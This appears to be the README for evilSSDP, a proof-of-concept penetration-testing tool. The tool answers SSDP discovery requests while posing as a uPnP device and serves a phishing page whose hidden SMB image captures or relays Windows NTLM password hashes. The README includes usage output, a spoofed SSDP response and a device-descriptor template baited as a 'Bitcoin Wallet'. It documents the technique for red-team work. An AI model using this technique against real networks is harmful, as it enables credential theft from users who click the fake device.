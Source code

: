 # Overview
This tool responds to SSDP multicast discover requests, posing as a generic uPNP device on a local network. Users who are tempted to open the device are shown a configurable webpage. By default, this page will load a hidden image over SMB, allowing you to capture or relay their NTLM password hash.

This works on Windows 10 systems (even if they have disabled NETBIOS and LLMNR) and requires no existing credentials to execute.

<img src=slide.png>

# Usage
You need to provide the network interface and a port. The interface is used for both the UDP SSDP interaction as well as hosting a web server for the XML files and phishing page. The port is used only for the web server.

The tool will automatically inject an IMG tag into the phishing page using the IP of the interface you provide. To work with hashes, you'll need to launch an SMB server at that interface. This can be customized in a future version.
```
usage: essdp.py [-h] [-p PORT] [-n NAME] interface

positional arguments:
  interface             Network interface to listen on.

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port for HTTP server. Defaults to 8888.
  ```

# Workflow
Devices attempting to discover shared network resources will send a UDP multicast out to 239.255.255.250 on port 1900. The source port is randomized. An example request looks like this:
```
M-SEARCH * HTTP/1.1
Host: 239.255.255.250:1900
ST: upnp:rootdevice
Man: "ssdp:discover"
MX: 3
```

To interact with this host, we need to capture both the source port and the 'ST' (Service Type) header. The response MUST be sent to the correct source port and SHOULD include the correct ST header. Note that it is not just the Windows OS looking for devices - scanning a typical network will show a large amount of requests from applications inside the OS (like Spotify), mobile phones, and other media devices. Windows will only play ball if you reply with the correct ST, other sources are more lenient.

evilSSDP will extract the requested ST and send a reponse like the following:

```
HTTP/1.1 200 OK
CACHE-CONTROL: max-age=1800
DATE: Tue, 26 Jun 2018 01:06:26 GMT
EXT: 
LOCATION: http://192.168.1.131:8888/ssdp/device-desc.xml
SERVER: Linux/3.10.96+, UPnP/1.0, eSSDP/0.1
ST: upnp:rootdevice
USN: uuid:e415ce0a-3e62-22d0-ad3f-42ec42e36563:upnp-rootdevice
BOOTID.UPNP.ORG: 0
CONFIGID.UPNP.ORG: 1
```

The location IP, ST, and date are constructed dynamically. This tells the requestor where to find more information about our device. Here, we are forcing Windows (and other requestors) to access our 'Device Descriptor' xml file and parse it. The USN is just a random string and needs only to be unique and formatted properly.

evilSSDP will pull a file from the templates folder (upnp-basic-device in POC) and dynamically plug in some variables such as your IP address. This 'Device Descriptor' file is where you can customize some juicy-sounding friendly names and descriptions. It looks like this:

```
<root>
    <specVersion>
        <major>1</major>
        <minor>0</minor>
    </specVersion>
    <device>
        <deviceType>urn:schemas-upnp-org:device:Basic:1</deviceType>
        <friendlyName>Bitcoin Wallet</friendlyName>
        <manufacturer>Bitcoin.org</manufacturer>
        <manufacturerURL>http://bitcoin.org</manufacturerURL>
        <modelDescription>Bitcoin Password Storage</modelDescription>
        <modelName>Core</modelName>
        <modelNumber>1337</modelNumber>
        <modelURL>http://bitcoin.org</modelURL>
        <serialNumber>1337</serialNumber>
        <UDN>uuid:e415ce0a-3e62-22d0-ad3f-42ec42e36563</UDN>
        <serviceList>
            <service>
                <URLBase>http://$localIp:$localPort</URLBase>
                <serviceType>urn:ecorp.co:service:ePNP:1</serviceType>
                <serviceId>urn:epnp.ecorp.co:serviceId:ePNP</serviceId>
                <controlURL>/epnp</controlURL>
                <eventSubURL/>
                <SCPDURL>/service-desc.xml</SCPDURL>
            </service>
        </serviceList>
        <presentationURL>http://$localIp:$localPort/present.html</presentationURL>
        </device>
    </root>
```

A key line in this file contains the 'Presentation URL'. This is what will load in a user's browser if they decide to manually double-click on the uPNP device. evilSSDP will host this file automatically (phish-bitcoin in POC), plugging in your source IP address into an IMG tag to access an SMB share that you can host with tools like [Impacket](https://www.coresecurity.com/corelabs-research/open-source-tools/impacket), [Responder](https://github.com/SpiderLabs/Responder), or [Metasploit](https://www.rapid7.com/db/modules/auxiliary/server/capture/smb).

# Customization
This is an early POC, but constructed in such a way to allow easy template creation in the future. For now, you can simply tweak the existing files in the 'templates' folder to rename the device, craft a custom phishing page, etc.

The tool currently only correctly creates devices for the uPNP 'rootdevice' device type, although it is responding to the SSDP queries for all devices types. It could be extended to provided custom answers for different devices in the pursuit of further vulnerabilities.

# Thanks
Thanks to ZeWarren and his project [here](https://github.com/ZeWaren/python-upnp-ssdp-example). I used this extensively to understand how to get the basics for SSDP working.
